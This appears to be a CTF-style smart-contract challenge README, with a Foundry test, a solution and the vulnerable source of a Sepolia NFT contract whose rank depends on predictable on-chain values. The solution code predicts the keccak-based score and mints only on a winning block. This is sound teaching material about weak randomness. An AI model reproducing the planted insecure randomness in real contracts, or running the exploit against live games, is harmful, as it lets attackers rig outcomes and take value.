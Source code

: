 # Background
Before the Oracles, it was difficult to generate random numbers. People had to use `sha3(block.number)` or other built-in variables to simulate the randomness.

# The predictable NFT game
In this game, there are 3 possible NFT ranks: Common(1), Rare(2), Superior(3).

Their randomization algorithm is weak, making it possible to predict the minting result.
The contract:
https://sepolia.etherscan.io/address/0x3D7C37943cF411BD4d52D50735B110B4384F9ae7

# The Goal
Analyze the contract's bytecode and find out its weakness.
You have 0.01 ether to mint 1 token, make sure to mint a Superior one.
You can wait and mint it on the right block.

# Foundry setup:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

import "forge-std/Test.sol";

contract PredictableNFTTest is Test {
	address nft;

	address hacker = address(0x1234);

	function setUp() public {
		vm.createSelectFork("https://rpc.ankr.com/eth_sepolia");
		vm.deal(hacker, 0.01 ether);

		nft = address(0x3D7C37943cF411BD4d52D50735B110B4384F9ae7);
	}

	function test() public {
		vm.startPrank(hacker);

		uint mintedId;

		uint currentBlockNum = block.number;

		// Mint a Superior one, do it within the next 100 blocks.
		for(uint i=0; i<100; i++) {
			vm.roll(currentBlockNum);

			// call the function `mint()` on the right block and break the loop
			// ---- hacking time ----

			// ---- end of hacking ----

			currentBlockNum++;
		}

		// get rank from `mapping(tokenId => rank)`
		(, bytes memory ret) = nft.call(abi.encodeWithSignature(
			"tokens(uint256)",
			mintedId
		));
		uint mintedRank = uint(bytes32(ret));
		assertEq(mintedRank, 3, "not Superior(rank != 3)");
	}
}

```

# Hint
- You can use the decompiler on https://sepolia.etherscan.io/bytecode-decompiler?a=0x3D7C37943cF411BD4d52D50735B110B4384F9ae7
- Or refer to the source code at the end.


# Solution
`---- hacking time ----`:
```solidity
			(, bytes memory ret) = nft.call(abi.encodeWithSignature(
				"id()"
			));
			uint nextId = uint(bytes32(ret)) + 1;

			uint score = uint256(keccak256(abi.encode(
				nextId, hacker, currentBlockNum
			))) % 100;

			if(score > 90) {
				(, bytes memory ret) = nft.call{value: 0.01 ether}(abi.encodeWithSignature(
					"mint()"
				));
				mintedId = uint(bytes32(ret));
				break;
			}
```

# The source code of that contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^ 0.8.19;

contract PredictableNFT {
	uint public id;

	mapping(uint => uint) public tokens; // map of: tokenId => rank

	function mint() external payable returns(uint) {
		require(msg.value == 0.01 ether, "show me the money");

		id += 1;

		uint rank = random();

		tokens[id] = rank;

		return id;
	}

	function random() private view returns(uint) {
		uint randScore = uint256(keccak256(abi.encode(
			id, msg.sender, block.number
		))) % 100;

		if(randScore > 90) {
			return 3; // Superior
		} else if(randScore > 80) {
			return 2; // Rare
		} else {
			return 1; // Common
		}
	}
}
```


